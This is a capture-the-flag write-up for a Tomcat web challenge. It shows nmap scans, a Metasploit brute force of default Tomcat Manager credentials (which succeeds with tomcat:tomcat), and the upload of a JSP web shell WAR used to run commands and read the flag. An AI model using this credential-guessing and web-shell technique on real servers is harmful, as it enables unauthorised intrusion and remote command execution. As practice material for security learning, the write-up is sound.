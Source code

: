 # Meow

## Web: 90 Points

## Challenge
We're using Tomcat to manage our [challenges.laptophackingcoffee.org](challenges.laptophackingcoffee.org) server. Is that bad?

Note: The server resets to default every 30 minutes. All progress will be lost.

## Solution

Scan the given URL with Nmap:
```
$ nmap -sC -sV challenges.laptophackingcoffee.org -Pn
...
PORT     STATE  SERVICE       VERSION
22/tcp   open   ssh           OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d4:ce:7d:2e:95:fd:ee:35:8e:18:1e:0b:05:b4:57:ff (RSA)
|   256 e8:90:b0:4c:70:3a:42:18:dd:46:f7:a4:f5:8d:60:31 (ECDSA)
|_  256 18:a4:49:d9:29:26:25:7d:aa:93:e1:af:17:0f:d3:66 (ED25519)
3389/tcp closed ms-wbt-server
4242/tcp open   http          Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Coding A CSS3 &amp; HTML5 One Page Template | Tutorialzine demo
8080/tcp open   http          Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.55
8086/tcp closed d-s-n
8090/tcp closed opsmessaging
8888/tcp open   http          nginx 1.17.0
|_http-server-header: nginx/1.17.0
|_http-title: Steve's Super Secure Storage Page
9999/tcp closed abyss                                
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Note that port 8080 is hosting the Tomcat server mentioned in the challenge:
```
8080/tcp open   http          Apache Tomcat/Coyote JSP engine 1.1
```

Scan just port 8080:
```
$ nmap -sC -sV challenges.laptophackingcoffee.org -p 8080 -Pn                              
...
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.55
...
```

Open the URL with port 8080 in the browser:

http://challenges.laptophackingcoffee.org:8080/

This page is the default Apache Tomcat homepage: 

![screenshot1.png](screenshot1.png)

Browse around. Click the **Manager App** button. Notice that the Manager App requires a username and password. Could this be a potential entry point?

![screenshot2.png](screenshot2.png)

Start up metasploit and search for *Tomcat*:
```
$ msfconsole
...
msf5 > search tomcat

Matching Modules
================

   #   Name                                                         Disclosure Date  Rank       Check  Description
   -   ----                                                         ---------------  ----       -----  -----------
   1   auxiliary/admin/http/tomcat_administration                                    normal     No     Tomcat Administration Tool Default Access
   2   auxiliary/admin/http/tomcat_utf8_traversal                   2009-01-09       normal     No     Tomcat UTF-8 Directory Traversal Vulnerability
   3   auxiliary/admin/http/trendmicro_dlp_traversal                2009-01-09       normal     No     TrendMicro Data Loss Prevention 5.5 Directory Traversal
   4   auxiliary/dos/http/apache_commons_fileupload_dos             2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   5   auxiliary/dos/http/apache_tomcat_transfer_encoding           2010-07-09       normal     No     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   6   auxiliary/dos/http/hashcollision_dos                         2011-12-28       normal     No     Hashtable Collisions
   7   auxiliary/scanner/http/tomcat_enum                                            normal     No     Apache Tomcat User Enumeration
   8   auxiliary/scanner/http/tomcat_mgr_login                                       normal     No     Tomcat Application Manager Login Utility
...
```

Out of the search results, the `auxiliary/scanner/http/tomcat_mgr_login` (#8) looks like the most relevant exploit. Select the exploit by entering the command `use 8`. Use the `info` and `show options` commands to view more details about the exploit. 

```
msf5 > use 8
msf5 auxiliary(scanner/http/tomcat_mgr_login) > show options

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            challenges.laptophackingcoffee.org                                              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             8080                                                                            yes       The target port (TCP)
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                           yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                                          no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST                                                                                             no        HTTP server virtual host
```

Note that the `RPORT` is already set to port 8080. Set the `RHOSTS` option to the LHC website and run the exploit:
```
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS challenges.laptophackingcoffee.org
RHOSTS => challenges.laptophackingcoffee.org
msf5 auxiliary(scanner/http/tomcat_mgr_login) > exploit

[!] No active DB -- Credential data will not be saved!
[-] 35.237.149.50:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 35.237.149.50:8080 - LOGIN FAILED: admin:manager (Incorrect)
...
[+] 35.237.149.50:8080 - Login Successful: tomcat:tomcat
...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

The exploit succeeded! Login successful:
```
[+] 35.237.149.50:8080 - Login Successful: tomcat:tomcat
```

Visit the Tomcat Manager App page and login with these credentials:
```
user:     tomcat
password: tomcat
```

Access granted: 
![screenshot3.png](screenshot3.png)

The page has a very alluring **Deploy** section. It allows users to **Select WAR file to upload** and then click the **Deploy** button. Further [research][1] confirms that this capability is dangerous. One of the [ways][3] to exploit this is through a web shell. 

Download the [cmd.war](cmd.war) file from this [github repo][4]. Upload and deploy it to the manager page. There will be a link named [/cmd](http://challenges.laptophackingcoffee.org:8080/cmd/). However, this link returns a **404 Not Found** status. To access the shell, visit the `/cmd/cmd.jsp` path:

http://challenges.laptophackingcoffee.org:8080/cmd/cmd.jsp

The **Commands with JSP** page will appear. Type any command in the text field and click **Send** to execute it. The `ls` command gives these results. One of the files is **flag.txt**:

![screenshot4.png](screenshot4.png)

Cat the **flag.txt** file and grab the flag:

![screenshot5.png](screenshot5.png)

```
LHC{T0Mc@t_D3F@ult}
```

## Resources
* [HackTheBox Writeup - Jerry][1]
* [GitHub: Apache Tomcat Default Credentials][2]
* [Multiple Ways to Exploit Tomcat Manager][3]
* [GitHub: Web Shells][4]
* [YouTube: Tomcat Server Shells][5]
* [PentesterLab: CVE-2007-1860 Exercise][6]

[1]:https://medium.com/@hussaini.faisal/hackthebox-writeup-jerry-aa2b992917a7
[2]:https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
[3]:https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
[4]:https://github.com/jbarcia/Web-Shells/blob/master/laudanum/jsp/cmd.war
[5]:https://youtu.be/825BP_gq6xo
[6]:https://pentesterlab.com/exercises/cve-2007-1860/course